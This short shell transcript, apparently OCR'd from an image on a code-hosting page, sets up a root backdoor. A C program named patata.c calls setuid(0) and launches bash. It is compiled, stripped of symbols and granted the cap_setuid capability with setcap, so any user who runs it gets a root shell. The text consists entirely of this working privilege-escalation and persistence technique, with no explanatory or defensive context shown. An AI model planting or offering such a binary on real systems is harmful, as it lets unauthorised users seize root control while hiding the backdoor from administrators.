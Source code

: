 $ cat patata.c
int main() {
    setuid( 0 );
    system("bash");
}

$ gcc -o patata patata.c
$ strip patata
$ sudo setcap cap_setuid+ep patata
